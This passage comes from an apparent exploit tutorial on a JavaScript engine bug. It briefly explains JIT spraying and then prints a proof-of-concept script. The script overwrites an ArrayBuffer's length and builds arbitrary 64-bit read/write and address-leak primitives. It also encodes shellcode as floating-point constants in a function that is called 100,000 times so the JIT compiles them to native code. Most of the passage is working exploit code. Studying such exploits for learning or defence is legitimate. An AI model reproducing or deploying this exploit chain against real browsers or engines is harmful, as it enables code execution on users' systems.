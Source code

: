 Now we define the constants in a function and then call it often enough to trigger the JIT compiler. The JIT compiler essentially compiles certain code from JavaScript to native code if it makes sense (e.g. it’s used a lot) in order to optimize for speed. By calling our function a lot of times we enforce the behavior. Now we can use our `addrof` primitive to get the address of our JITted function and then use gdb to inspect the memory. Note that we added the double for `\x41\x41\x41\x41` as the first constant in order to find the shellcode in memory.

**PoC\_0x02.js**

```js
// create an ArrayBuffer A and set its length to a large value
aBuf = new ArrayBuffer(80);
aBuf.byteLength = 1000;
aBuf = new BigUint64Array(aBuf)

// create a second ArrayBuffer B to have an adjacent object
bBuf = new ArrayBuffer(80);
bBufTyped = new BigUint64Array(bBuf)

function read64(addr){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    let typedB = new BigUint64Array(bBuf)
    return typedB[0]
}

function write64(addr, value){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    // access B as a TypedArray to get a 64 bit value back
    let typedB = new BigUint64Array(bBuf)
    // set first element (exactly where the changed data pointer points to)
    typedB[0] = value
}

function addrof(obj){
    // Set a new property on the ArrayBuffer, its pointer will be pointed to by the slots pointer (offset 13)
    bBuf.leak = obj
    // read the slots pointer back
    _slots = aBuf[13]
    // dereference the slots pointer and return it (while masking off any pointer tagging)
    return read64(_slots) & 0xffffffffffffn
}

function shellcode (){
    EGG = 5.40900888e-315;          // 0x41414141 in memory, marker to find
    C01 = -6.828527034422786e-229;  // 0x9090909090909090
    C02 = 6.867659397734779e+246     
    C03 = 7.806615353364766e+184
    C04 = 2.541954188459429e-198
    C05 = 3.2060568060029287e-80
    C06 = 3.4574612453438036e+198
    C07 = 7.57500810708945e-119
    C08 = 1.0802257739008538e+117
    C09 = -6.828527034370483e-229    
}

// JIT Spray - will make sure the constants are compiled to native code and create our shellcode
for (let i = 0; i < 100000; i++) {
    shellcode();
}
console.log(addrof(shellcode).toString(16));
```
